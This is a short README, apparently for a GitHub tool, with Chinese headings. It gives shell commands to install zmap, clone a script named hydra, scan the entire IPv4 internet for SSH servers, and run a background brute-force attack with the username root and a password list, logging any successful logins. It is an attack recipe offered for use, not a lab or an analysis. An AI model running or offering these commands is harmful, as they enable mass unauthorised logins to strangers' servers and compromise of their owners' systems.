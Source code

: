   ### 安装zmap 克隆项目

	apt update && apt install zmap && apt install git && git clone https://github.com/qq1521575701/hydra.git && cd hydra && chmod +x hydra.sh

  ### zmap扫描ssh服务

	zmap -p 22 0.0.0.0/0 -N 10000 -o ssh.txt

  ### 运行项目

  	nohup ./hydra.sh ssh.txt root pass.txt 5 res.txt > hydra.log &

  ### 查看运行详情

  	tail -f hydra.log

 ### 查看结果

  	tail -f res.txt
  
